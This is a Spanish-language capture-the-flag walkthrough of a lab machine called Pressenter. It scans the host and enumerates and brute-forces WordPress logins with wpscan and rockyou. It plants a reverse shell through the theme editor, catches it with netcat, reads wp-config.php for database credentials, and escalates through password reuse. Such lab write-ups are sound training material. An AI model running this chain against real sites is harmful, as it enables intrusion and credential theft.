 ```yaml
---
description: '✍️ Autor: d1se0  🔍 Dificultad: Fácil  📅 Fecha de creación: 29/08/2024'
---
```


# Pressenter

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (773).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (774).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web de CTF (está algo fea) puede ser que sea un WordPress.

<figure><img src="../../.gitbook/assets/image (775).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt,xml
```

<figure><img src="../../.gitbook/assets/image (779).png" alt=""><figcaption></figcaption></figure>

Revisamos el código fuente y encontramos un dominio por lo que hay que añadirlo en el archivo `/etc/hosts`.

<figure><img src="../../.gitbook/assets/image (776).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (777).png" alt=""><figcaption></figcaption></figure>

Al ser un **WordPress** realizamos este comando para enumerar los usuarios y plugins.

```bash
wpscan --url http://pressenter.hl/ --enumerate u,vp
```

<figure><img src="../../.gitbook/assets/image (778).png" alt=""><figcaption></figcaption></figure>

Realizamos fuerza bruta a través de la misma herramienta.

```bash
wpscan --url http://pressenter.hl/ --passwords /usr/share/wordlists/rockyou.txt --usernames pressi,hacker
```

<figure><img src="../../.gitbook/assets/image (781).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales.

<figure><img src="../../.gitbook/assets/image (780).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Estamos dentro vamos a la sección de **Herramientas** en concreto **Editor de archivos de temas** para subir la [**Reverse Shell**](https://www.revshells.com/).

<figure><img src="../../.gitbook/assets/image (782).png" alt=""><figcaption></figcaption></figure>

Al actualizar el archivo nos ponemos en escucha.

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (783).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.

<figure><img src="../../.gitbook/assets/image (784).png" alt=""><figcaption></figcaption></figure>

Encuentro en el directorio `/tmp` un archivo que no se puede leer si no soy el usuario **mysql** por lo que voy a mostrar el contenido de **wp-config.php**.

<figure><img src="../../.gitbook/assets/image (785).png" alt=""><figcaption></figcaption></figure>

```
cat /var/www/pressenter/wp-config.php
```

<figure><img src="../../.gitbook/assets/image (787).png" alt=""><figcaption></figcaption></figure>

Encontramos un usuario y su contraseña.

```
mysql -u admin -p'rooteable' -h 127.0.0.1
```

<figure><img src="../../.gitbook/assets/image (788).png" alt=""><figcaption></figcaption></figure>

Indagamos a ver si encontramos información relevante.

```bash
show databases;
use wordpress;
show tables;
select * from wp_usernames;
```

<figure><img src="../../.gitbook/assets/image (789).png" alt=""><figcaption></figcaption></figure>

Encontramos las credenciales del usuario **enter**. Nos logueamos.

<figure><img src="../../.gitbook/assets/image (790).png" alt=""><figcaption></figcaption></figure>

En el directorio del usuario hay una flag probablemente en el directorio root puede haber algo parecido por lo que realizamos este comando para escalar privilegios.

```bash
sudo /usr/bin/cat /root/root.txt
```

<figure><img src="../../.gitbook/assets/image (791).png" alt=""><figcaption></figcaption></figure>

No tenemos suerte, voy a probar una solución más sencilla y es la misma contraseña sea para root.

<figure><img src="../../.gitbook/assets/image (792).png" alt=""><figcaption></figcaption></figure>
